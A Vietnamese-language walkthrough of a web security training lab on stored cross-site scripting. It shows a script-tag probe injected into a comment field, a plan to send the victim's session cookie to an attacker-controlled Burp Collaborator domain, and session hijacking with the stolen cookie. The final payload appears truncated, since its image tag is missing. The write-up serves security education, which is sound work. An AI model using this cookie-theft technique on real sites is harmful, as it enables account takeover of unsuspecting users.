







# Lab: Exploiting cross-site scripting to steal cookies

## Mô tả lab

Bài lab này thuộc nhóm Exploiting XSS. Ứng dụng có lỗ hổng XSS trong chức năng comment. Khi người dùng đăng comment, nội dung comment sẽ được lưu lại và hiển thị cho các user khác. Một victim giả lập sẽ truy cập và xem các comment được đăng. Nếu comment chứa JavaScript độc hại, script đó sẽ chạy trên trình duyệt của victim.

> Lab này có thể solve bằng Burp Collaborator hoặc bằng một server/webhook tự kiểm soát.

## Các bước thực hiện

## Kiểm tra chức năng comment

Kiểm tra xem ứng dụng có cho phép chèn HTML tag hoặc JavaScript trong comment hay không.

```html
<b>h1</b>, 
<script>document.write("Two")</script>
```



Kết quả:



Phần comment cho phép HTML/JavaScript được render không an toàn.

## Ý tưởng khai thác

Vì victim sẽ truy cập và xem comment đã đăng, ta có thể chèn một đoạn JavaScript vào comment để chạy trên trình duyệt của victim.

Mục tiêu là lấy giá trị:

```javascript
document.cookie
```

Sau đó gửi cookie này ra ngoài tới server do attacker kiểm soát.

Có nhiều cách để exfiltrate cookie, ví dụ:

- Tạo request tới Burp Collaborator.
- Tạo request tới webhook.
- Tạo thẻ `` với `src` chứa cookie trong query string.

Trong bài này, sử dụng Burp Collaborator domain để nhận request.

## Tạo Burp Collaborator

Tạo một Collaborator domain:

```text
svrf8eb0x0aiem2t1p0dzzkuhlncb2zr.oastify.com
```

Domain này sẽ được dùng để nhận request chứa cookie của victim.

## Payload

```html
<script>
document.write('')
</script>
```



Khi trình duyệt render thẻ ``, nó sẽ tự động gửi request tới Collaborator domain để tải ảnh.

## Kiểm tra Burp Collaborator

Quay lại Burp Collaborator và kiểm tra interaction.



Vì cookie được nối vào URL query string, request gửi tới Collaborator sẽ chứa session cookie của victim.




Ta lấy được giá trị session cookie của victim.

## Impersonate victim

Thay cookie hiện tại của mình bằng cookie đánh cắp được.



Reload lại trang lab.



Lab solved.
